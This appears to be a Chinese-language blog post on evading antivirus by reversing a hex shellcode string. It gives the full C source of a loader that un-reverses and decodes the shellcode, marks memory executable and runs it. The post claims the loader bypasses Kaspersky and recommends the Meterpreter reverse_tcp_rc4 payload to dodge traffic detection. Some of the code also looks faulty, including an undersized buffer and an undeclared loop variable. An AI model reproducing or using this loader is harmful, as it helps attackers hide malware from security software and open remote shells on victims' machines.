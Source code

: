 # 反转字符串绕杀软

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

## 思路

直接python一行代码翻转字符串。

![](../.gitbook/assets/image%20%28145%29.png)

在加载器内翻转字符串。

```text
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }
```

然后执行老哥的ssi，这里遇到一个坑，tm的vc6根本没有malloc\(略略略\)。

然后请出我们的卡巴斯基。

![](../.gitbook/assets/image%20%28148%29.png)

虽然我们古典主义脚本小子特别喜欢弹窗\(更多时候弹calc\)，这里我们再测一下Meterpreter。

防止在流量检测的时候被杀掉，我们使用windows/meterpreter/reverse\_tcp\_rc4这个payload。

![](../.gitbook/assets/image%20%28147%29.png)

![](../.gitbook/assets/image%20%28146%29.png)

略略略。

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```

